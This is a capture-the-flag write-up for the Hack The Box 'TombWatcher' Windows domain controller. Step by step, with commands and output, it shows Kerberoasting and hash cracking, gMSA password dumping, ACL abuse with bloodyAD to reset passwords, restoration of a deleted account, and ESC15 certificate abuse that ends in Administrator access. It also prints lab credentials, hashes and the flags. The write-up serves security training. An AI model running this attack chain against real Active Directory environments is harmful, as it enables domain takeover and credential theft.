

# PORT SCAN
---

| PORT      | SERVICE       |
| --------- | ------------- |
| 53/tcp    | domain        |
| 80/tcp    | http          |
| 88/tcp    | kerberos-sec  |
| 135/tcp   | msrpc         |
| 139/tcp   | netbios-ssn   |
| 389/tcp   | ldap          |
| 445/tcp   | microsoft-ds? |
| 464/tcp   | kpasswd5?     |
| 593/tcp   | ncacn_http    |
| 636/tcp   | ssl/ldap      |
| 3268/tcp  | ldap          |
| 3269/tcp  | ssl/ldap      |
| 5985/tcp  | http          |
| 9389/tcp  | mc-nmf        |
| 49666/tcp | msrpc         |
| 49691/tcp | ncacn_http    |
| 49692/tcp | msrpc         |
| 49694/tcp | msrpc         |
| 49712/tcp | msrpc         |
| 49718/tcp | msrpc         |
| 49740/tcp | msrpc         |
| 51522/tcp | msrpc         |


# RECONNAISSANCE
---

As usual on Windows machines for HTB, we receive initial credentials:

```
henry / H3nry_987TGV!
```

First of all, we need to add the dc and domain to `/etc/hosts`:

```bash
echo '10.10.11.72 tombwatcher.htb DC01.tombwatcher.htb' | sudo tee -a /etc/hosts
```

Let's begin with some basic enumeration:

```python
smbmap -H 10.10.11.72 -u henry -p 'H3nry_987TGV!'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.10.11.72:445	Name: 10.10.11.72         	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	SYSVOL                                            	READ ONLY	Logon server share
[*] Closed 1 connections
```

Nothing too interesting on here, let's use `rpcclient` to check more info:

```bash
rpcclient -U 'henry%H3nry_987TGV!' 10.10.11.72
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[Henry] rid:[0x44f]
user:[Alfred] rid:[0x450]
user:[sam] rid:[0x451]
user:[john] rid:[0x452]
rpcclient $> queryuser 0x450
	User Name   :	Alfred
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Mon, 16 Jun 2025 06:25:46 UTC
	Logoff Time              :	Thu, 01 Jan 1970 00:00:00 UTC
	Kickoff Time             :	Thu, 01 Jan 1970 00:00:00 UTC
	Password last set Time   :	Mon, 12 May 2025 15:17:04 UTC
	Password can change Time :	Mon, 12 May 2025 15:17:04 UTC
	Password must change Time:	Thu, 14 Sep 30828 02:48:05 UTC
	unknown_2[0..31]...
	user_rid :	0x450
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000001
	padding1[0..7]...
	logon_hrs[0..21]...
rpcclient $> queryuser 0x44f
	User Name   :	Henry
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Mon, 16 Jun 2025 06:45:52 UTC
	Logoff Time              :	Thu, 01 Jan 1970 00:00:00 UTC
	Kickoff Time             :	Thu, 01 Jan 1970 00:00:00 UTC
	Password last set Time   :	Mon, 12 May 2025 15:17:04 UTC
	Password can change Time :	Mon, 12 May 2025 15:17:04 UTC
	Password must change Time:	Thu, 14 Sep 30828 02:48:05 UTC
	unknown_2[0..31]...
	user_rid :	0x44f
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x0000000a
	padding1[0..7]...
	logon_hrs[0..21]...
rpcclient $> queryuser 0x452
	User Name   :	john
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Mon, 16 Jun 2025 07:22:24 UTC
	Logoff Time              :	Thu, 01 Jan 1970 00:00:00 UTC
	Kickoff Time             :	Thu, 01 Jan 1970 00:00:00 UTC
	Password last set Time   :	Mon, 16 Jun 2025 07:12:09 UTC
	Password can change Time :	Mon, 16 Jun 2025 07:12:09 UTC
	Password must change Time:	Thu, 14 Sep 30828 02:48:05 UTC
	unknown_2[0..31]...
	user_rid :	0x452
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000001
	padding1[0..7]...
	logon_hrs[0..21]...
rpcclient $> queryuser 0x451
	User Name   :	sam
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Mon, 16 Jun 2025 07:08:08 UTC
	Logoff Time              :	Thu, 01 Jan 1970 00:00:00 UTC
	Kickoff Time             :	Thu, 01 Jan 1970 00:00:00 UTC
	Password last set Time   :	Mon, 16 Jun 2025 07:10:42 UTC
	Password can change Time :	Mon, 16 Jun 2025 07:10:42 UTC
	Password must change Time:	Thu, 14 Sep 30828 02:48:05 UTC
	unknown_2[0..31]...
	user_rid :	0x451
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000004
	padding1[0..7]...
	logon_hrs[0..21]...
```

Ok, some relevant info was found here, such as the existence of three users beside from `henry`:

```
Alfred, John, Sam
```

`Ldapsearch` also works on here, we can do enumeration for this service with:


**List all directory objects**:

```bash
ldapsearch -x -H ldap://DC01.tombwatcher.htb -D "henry@tombwatcher.htb" -w 'H3nry_987TGV!' -b "dc=tombwatcher,dc=htb" | tee ldap_full.txt
```


**Find all users and their attributes:**

```bash
ldapsearch -x -H ldap://DC01.tombwatcher.htb -D "henry@tombwatcher.htb" -w 'H3nry_987TGV!' -b "dc=tombwatcher,dc=htb" "(objectClass=user)" sAMAccountName userPrincipalName description memberOf pwdLastSet | tee ldap_users.txt
```


**Find privileged groups (Domain Admins, Enterprise Admins):**

```bash
ldapsearch -x -H ldap://DC01.tombwatcher.htb -D "henry@tombwatcher.htb" -w 'H3nry_987TGV!' -b "dc=tombwatcher,dc=htb" "(&(objectClass=group)(|(cn=Domain Admins)(cn=Enterprise Admins)))" member | tee ldap_admins.txt
```


On the ldapsearch scan, we can find this for `Alfred`:


```bash
# Alfred, Users, tombwatcher.htb
dn: CN=Alfred,CN=Users,DC=tombwatcher,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Alfred
sn: Alfred
givenName: Alfred
distinguishedName: CN=Alfred,CN=Users,DC=tombwatcher,DC=htb
instanceType: 4
whenCreated: 20241116005413.0Z
whenChanged: 20250616054207.0Z
uSNCreated: 12796
uSNChanged: 90447
name: Alfred
objectGUID:: D8E9DOcwR0CSAfNd87uJOQ==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 133945271686968549
lastLogoff: 0
lastLogon: 133945287464623886
logonHours:: ////////////////////////////
pwdLastSet: 133915366235266698
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAArr/UoEu+1C7Lcd+UAQAAA==
accountExpires: 0
logonCount: 1
sAMAccountName: Alfred
sAMAccountType: 805306368
servicePrincipalName: http/test
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=tombwatcher,DC=htb
dSCorePropagationData: 20241116170624.0Z
dSCorePropagationData: 20241116170451.0Z
dSCorePropagationData: 20241116170002.0Z
dSCorePropagationData: 20241116165829.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 133945082703530965
```

If we take a closer look, we can see that Alfred has an SPN (`servicePrincipalName: http/test`) associated with their account. This means Alfred is tied to a Kerberos-enabled service, making him a candidate for a **Kerberoasting** attack. Since Alfred is a regular user (`sAMAccountType: 805306368`) and not a computer object, and his `userAccountControl` value of `66048` doesn’t restrict Kerberos ticket requests, it’s possible to request a **TGS (Ticket Granting Service)** ticket for the service linked to his SPN. Kerberoasting works by requesting this TGS, which is encrypted with the service account’s NTLM hash.

**Kerberoasting** is an offline attack that targets Kerberos service accounts in Active Directory. The idea is to extract **TGS (Ticket Granting Service)** tickets for accounts that have **Service Principal Names (SPNs)** set, which are used to identify services running under specific user accounts. When a user requests access to such a service, the KDC encrypts the TGS using the NTLM hash of the service account's password. An attacker with valid domain credentials can request this ticket and dump it for offline cracking. The key requirements for a Kerberoasting attack to be successful are: the attacker must have domain user access, the target account must have a registered **SPN**, and the service account should use a **weak or guessable password**. No elevated privileges are required, making it an effective and stealthy way to escalate privileges within a domain.

Nice, we already know an exploitation path, let's use bloodhound to finish our enumeration phase:

```python
bloodhound-python -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' -ns 10.10.11.72 -c All --zip
```


As an usual recommendation:

> Note: If you want to flush all previous data from bloodhound, you can go to `http://localhost:7474` and perform the following query:

```
MATCH (n)
DETACH DELETE n
```


First of all and how I explained it earlier, we can perform a kerberoast attack on `Alfred`, 


For more info on this attack, refer to:

Kerberoast: https://notes.benheater.com/books/active-directory/page/kerberoasting


We can add ourselves as `alfred` to `infrastructure`:


We got `ReadGMSAPassword` over `Ansible_devs`:


We can exploit that path to force the password change for `sam` user:


This user has `WriteOwner` over `John`, and if we check `John`, we can find this: 


We got `GenericAll` over `ADCS` which means we may able to get a certificate to leverage admin access, let's proceed to exploitation to check our exploitation path.


# EXPLOITATION
---





We must begin from the bottom, first in our diagram is to perform the `kerberoast` attack, let's do it:

```python
# We need the time sync first
sudo ntpdate DC01.tombwatcher.htb 

GetUserSPNs.py 'tombwatcher.htb/henry:H3nry_987TGV!' -dc-ip DC01.tombwatcher.htb -request | tee kerberoast.txt

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
--------------------  ------  --------  --------------------------  --------------------------  ----------
http/test             Alfred            2025-05-12 11:17:03.526670  2025-06-16 02:25:46.462389             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$13c4d291aac1cd75d8aa89441dfc6b5b$ca08abfc37bb7c2feff7cd5c8bb1978ca323882ed3ab73c2c3a865436c8ce35114109a9e5da899fa6094951768b974d5c9205c28f063d718aa6f9c310ddc913516ab4b04c0ebb13818dc60740c42c2010eb3e678ddcc61c656408fb38f418060d96057b91f28b8f277432f0c728980adf1cb57bb8aee30d799c3db932a4d48647c74f30640eb1c1c313ce525ba34b3cf647c6e594e861fd8a3f9099813fd4a6d2a008884c85cc2e4722ccc5fffe3c6dfec5d9a70ec8635862f4d96e4db67ef9d3ac87244144b9dfd5c7790c4881d92001cde44daa1d8762b35012ad1029bddc2ed0b18af71f4d761d10c05ffb3deb2ddbc0488753b6d2c9a619f14085a1784cae1c46021d02a400139223547778bd038480710875f4d0f62fdee2951610a926bae39072a1d2a49bf05948f0f448b7544e04240da338673c94d2d21f289b12c53cebee2ee04b9e66dc50922cf90752dba4a078d0bbb6d886cd99c12fae62a93e6ee9c24ea9caf1a68c91dac46998c642ee8b5f8e9c6402ea11cf76b53b4fe2b115055e45778b09da99f4e92f84d7543f645506585941e25f74f14d9bdfced60a814f9c78126e3a5f53259521d936958149b4d0ca93b64c47d61413b114394e2a3a73366e6e9d03fde55c0762934356fb55e93d51339a6cfcb9c5b3c6b636fabd0eed9be1cfb37dbd24ec36e5f31ed0e038c539262e94086fca23b9166b5c7079f279329823724d8a23dd966869eb0ded03297bfd10aa6fbfdf47ff3f186fac7f287be7d1aecde741206918984082586450e8156e2a3261ed6bd72068620369233a98ae6fb3482906b4b26bfca2596a653d597a983920743ec35d06566c47eae4505d786ed8c162752d9c389f926d994f3154fce45e836e5a7d12b7605c81c8601ae92ae88396a922dea6622c22163222d7d3b40525cd708dbdef25927881a14e308d3b586dbf74f65419857bf81ce239b93cefebfe9048c82d4df8506a56797c6a4b42380de09ab1afd1967031a9a7937dc4765447e50733b157e94fe7a792ac0e7085d871882c5db2cda70243e0c623b4bd05ec470846fda8e4457506d65715059486d9bffeece4cc96eafea70532f732a50ade65ba2497ccf5c87686c221b189c045191543a40d94e9f425d8f4fe91d813b0938b3c301ac3ede02eaa01c03cdd52534b0472816ee2ed1fbe0bcec969dfed1237d08db688d7e96b52f145a37906aef4676ced5cb7c0251d975d79a52cecd7f5a8b9c518a4f3b849a863ca45588191ff756d0d580181745c77f0ede33258f2f950a7e5143631efe6dac47cf2756ef95bd1f4374a92b2698233c24f8080a5dafd27d0592d05e19fb8a862fc5428b7f134915b65b298f4e149ab03739787c861d053708d87d473ae198db4b793f4c8665786a4236e81f00fc676d70331f1fb28a2a3665192d0ae81d9cf7e144b914ea1bb54facf9142ea5213eeaa4be594b61a558c79e
```

We got our `TGS`, let's crack it using hashcat:


```
hashcat -m 13100 alfred.hash /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$13c4d291aac1cd75d8aa89441dfc6b5b$ca08abfc37bb7c2feff7cd5c8bb1978ca323882ed3ab73c2c3a865436c8ce35114109a9e5da899fa6094951768b974d5c9205c28f063d718aa6f9c310ddc913516ab4b04c0ebb13818dc60740c42c2010eb3e678ddcc61c656408fb38f418060d96057b91f28b8f277432f0c728980adf1cb57bb8aee30d799c3db932a4d48647c74f30640eb1c1c313ce525ba34b3cf647c6e594e861fd8a3f9099813fd4a6d2a008884c85cc2e4722ccc5fffe3c6dfec5d9a70ec8635862f4d96e4db67ef9d3ac87244144b9dfd5c7790c4881d92001cde44daa1d8762b35012ad1029bddc2ed0b18af71f4d761d10c05ffb3deb2ddbc0488753b6d2c9a619f14085a1784cae1c46021d02a400139223547778bd038480710875f4d0f62fdee2951610a926bae39072a1d2a49bf05948f0f448b7544e04240da338673c94d2d21f289b12c53cebee2ee04b9e66dc50922cf90752dba4a078d0bbb6d886cd99c12fae62a93e6ee9c24ea9caf1a68c91dac46998c642ee8b5f8e9c6402ea11cf76b53b4fe2b115055e45778b09da99f4e92f84d7543f645506585941e25f74f14d9bdfced60a814f9c78126e3a5f53259521d936958149b4d0ca93b64c47d61413b114394e2a3a73366e6e9d03fde55c0762934356fb55e93d51339a6cfcb9c5b3c6b636fabd0eed9be1cfb37dbd24ec36e5f31ed0e038c539262e94086fca23b9166b5c7079f279329823724d8a23dd966869eb0ded03297bfd10aa6fbfdf47ff3f186fac7f287be7d1aecde741206918984082586450e8156e2a3261ed6bd72068620369233a98ae6fb3482906b4b26bfca2596a653d597a983920743ec35d06566c47eae4505d786ed8c162752d9c389f926d994f3154fce45e836e5a7d12b7605c81c8601ae92ae88396a922dea6622c22163222d7d3b40525cd708dbdef25927881a14e308d3b586dbf74f65419857bf81ce239b93cefebfe9048c82d4df8506a56797c6a4b42380de09ab1afd1967031a9a7937dc4765447e50733b157e94fe7a792ac0e7085d871882c5db2cda70243e0c623b4bd05ec470846fda8e4457506d65715059486d9bffeece4cc96eafea70532f732a50ade65ba2497ccf5c87686c221b189c045191543a40d94e9f425d8f4fe91d813b0938b3c301ac3ede02eaa01c03cdd52534b0472816ee2ed1fbe0bcec969dfed1237d08db688d7e96b52f145a37906aef4676ced5cb7c0251d975d79a52cecd7f5a8b9c518a4f3b849a863ca45588191ff756d0d580181745c77f0ede33258f2f950a7e5143631efe6dac47cf2756ef95bd1f4374a92b2698233c24f8080a5dafd27d0592d05e19fb8a862fc5428b7f134915b65b298f4e149ab03739787c861d053708d87d473ae198db4b793f4c8665786a4236e81f00fc676d70331f1fb28a2a3665192d0ae81d9cf7e144b914ea1bb54facf9142ea5213eeaa4be594b61a558c79e:basketball
```

Nice, we got Alfred credentials:

```
alfred:basketball
```

Now, we need to add ourselves to `Infrastructure` we can use `bloodyAD`, here's a cheatsheet for `bloodyAD` I'll be using here:

Cheatsheet: https://adminions.ca/books/active-directory-enumeration-and-exploitation/page/bloodyad

```python
bloodyAD -d tombwatcher.htb -u alfred -p basketball --host 10.10.11.72 add groupMember Infrastructure Alfred
[+] Alfred added to Infrastructure
```

Nice, now next step is to read `GMSAPassword`, we can use `gMSADumper.py`:

REPO: https://github.com/micahvandeusen/gMSADumper


```python
python3 gMSADumper.py -u alfred -p basketball -d tombwatcher.htb
Users or groups who can read password for ansible_dev$:
 > Infrastructure
ansible_dev$:::4b21348ca4a9edff9689cdf75cbda439
ansible_dev$:aes256-cts-hmac-sha1-96:499620251908efbd6972fd63ba7e385eb4ea2f0ea5127f0ab4ae3fd7811e600a
ansible_dev$:aes128-cts-hmac-sha1-96:230ccd9df374b5fad6a322c5d7410226
```

We got the hash, we can use this to force the password change on `sam`:

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u 'ansible_dev$' -p ':4b21348ca4a9edff9689cdf75cbda439' set password SAM 'Passw0rd123!'
[+] Password changed successfully!
```

Nice, we're getting places, now, remember SAM has `WriteOwner` over `John`, let's take ownership of the user:

```python
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u SAM -p 'Passw0rd123!' set owner JOHN 'SAM'
[+] Old owner S-1-5-21-1392491010-1358638721-2126982587-512 is now replaced by SAM on JOHN

bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u SAM -p 'Passw0rd123!' add genericAll JOHN 'SAM'
[+] SAM has now GenericAll on JOHN

bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u SAM -p 'Passw0rd123!' set password JOHN 'P@ssw0rd123!'

[+] Password changed successfully!
```

We got complete ownership of `John`, we can now check if we can go into `evil-winrm`:

```bash
crackmapexec winrm 10.10.11.72 -u john -p 'P@ssw0rd123!'
CrackMapExec is deprecated and has been replaced by NetExec.
This binary is just an alias for netexec command.
WINRM       10.10.11.72     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
WINRM       10.10.11.72     5985   DC01             [+] tombwatcher.htb\john:P@ssw0rd123! (Pwn3d!)
```

Nice, let's go into evil-winrm:

```
evil-winrm -i dc01.tombwatcher.htb -u john -p 'P@ssw0rd123!'
```


We can now begin privilege escalation.


# PRIVILEGE ESCALATION
---


We already got access as John, if we remember our diagram, we got `GenericAll` over `ADCS`, the admin path must be with certificate exploitation, first let's use `certipy` to check all certificates:

```
certipy find -u john -p 'P@ssw0rd123!' -dc-ip 10.10.11.72
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Failed to lookup object with SID 'S-1-5-21-1392491010-1358638721-2126982587-1111'
[*] Saving text output to '20250616044317_Certipy.txt'
[*] Wrote text output to '20250616044317_Certipy.txt'
[*] Saving JSON output to '20250616044317_Certipy.json'
[*] Wrote JSON output to '20250616044317_Certipy.json'
```

If we check the output, we can find this:

```json
"17": {
      "Template Name": "WebServer",
      "Display Name": "Web Server",
      "Certificate Authorities": [
        "tombwatcher-CA-1"
      ],
      "Enabled": true,
      "Client Authentication": false,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": true,
      "Certificate Name Flag": [
        1
      ],
      "Extended Key Usage": [
        "Server Authentication"
      ],
      "Requires Manager Approval": false,
      "Requires Key Archival": false,
      "Authorized Signatures Required": 0,
      "Schema Version": 1,
      "Validity Period": "2 years",
      "Renewal Period": "6 weeks",
      "Minimum RSA Key Length": 2048,
      "Template Created": "2024-11-16 00:57:49+00:00",
      "Template Last Modified": "2024-11-16 17:07:26+00:00",
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "TOMBWATCHER.HTB\\Domain Admins",
            "TOMBWATCHER.HTB\\Enterprise Admins",
            "S-1-5-21-1392491010-1358638721-2126982587-1111"
          ]
        },
        "Object Control Permissions": {
          "Owner": "TOMBWATCHER.HTB\\Enterprise Admins",
          "Full Control Principals": [
            "TOMBWATCHER.HTB\\Domain Admins",
            "TOMBWATCHER.HTB\\Enterprise Admins"
          ],
          "Write Owner Principals": [
            "TOMBWATCHER.HTB\\Domain Admins",
            "TOMBWATCHER.HTB\\Enterprise Admins"
          ],
          "Write Dacl Principals": [
            "TOMBWATCHER.HTB\\Domain Admins",
            "TOMBWATCHER.HTB\\Enterprise Admins"
          ],
          "Write Property Enroll": [
            "TOMBWATCHER.HTB\\Domain Admins",
            "TOMBWATCHER.HTB\\Enterprise Admins",
            "S-1-5-21-1392491010-1358638721-2126982587-1111"
          ]
        }
      }
    },
```

The template `WebServer` has `Enrollment Rights` and `Write Property` enroll on an user with `rid 1111`, let's use `evil-winrm` to list the users that may have been deleted since we know the user does not appear on the enumeration phase nor the bloodhound scan:

```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties objectSid, lastKnownParent, ObjectGUID | Select-Object Name, ObjectGUID, objectSid, lastKnownParent | Format-List

Name            : cert_admin
                  DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
ObjectGUID      : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
objectSid       : S-1-5-21-1392491010-1358638721-2126982587-1109
lastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb

Name            : cert_admin
                  DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
ObjectGUID      : c1f1f0fe-df9c-494c-bf05-0679e181b358
objectSid       : S-1-5-21-1392491010-1358638721-2126982587-1110
lastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb

Name            : cert_admin
                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
ObjectGUID      : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
objectSid       : S-1-5-21-1392491010-1358638721-2126982587-1111
lastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb
```

As seen, we can find our `rid 1111` user, it corresponds to `cert_admin`, remember we got `GenericAll` as `john` over `ad_cs`, we can exploit this by restoring the user and changing its password:

```powershell
Restore-ADObject -Identity '938182c3-bf0b-410a-9aaa-45c8e1a02ebf'
```

Now, on bloodyAD do:

```python
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u JOHN -p 'P@ssw0rd123!' set password cert_admin 'cert_ADMIN!123@'

[+] Password changed successfully!
```

We were able to change the password, we can run `certipy` again:

```python
certipy find -u cert_admin -p 'cert_ADMIN!123@' -dc-ip 10.10.11.72

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250616045513_Certipy.txt'
[*] Wrote text output to '20250616045513_Certipy.txt'
[*] Saving JSON output to '20250616045513_Certipy.json'
[*] Wrote JSON output to '20250616045513_Certipy.json'
```

On template `17` which corresponds to webserver, we can find this: 

```json
 17
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
```

As we can notice, we find `ESC15`, on internet we can find info on how to exploit this:

ESC15: https://medium.com/@offsecdeer/adcs-exploitation-series-part-2-certificate-mapping-esc15-6e19a6037760


Let's recreate the PoC:

```PYTHON
certipy req -u 'cert_admin@tombwatcher.htb' -p 'cert_ADMIN!123@' -target dc01.tombwatcher.htb -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'Administrator' -application-policies 'Client Authentication'

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc01.tombwatcher.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: TOMBWATCHER.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 13
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx
```

Now we can use certipy auth:

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -domain tombwatcher.htb -ldap-shell
```

And finally request a password change for administrator:

```python
change_password Administrator ADMINPass!@#12

Got User DN: CN=Administrator,CN=Users,DC=tombwatcher,DC=htb
Attempting to set new password of: ADMINPass!@#12
Password changed successfully!
```

Nice, we can finally use `evil-winrm` to get into admin:


Let's get our flags and finish the CTF:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\John\Desktop\user.txt
0fe38524686ec8932c7de4e8f1b7879a

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
44bd5ef7584300a8feffe70567ec01e9
```


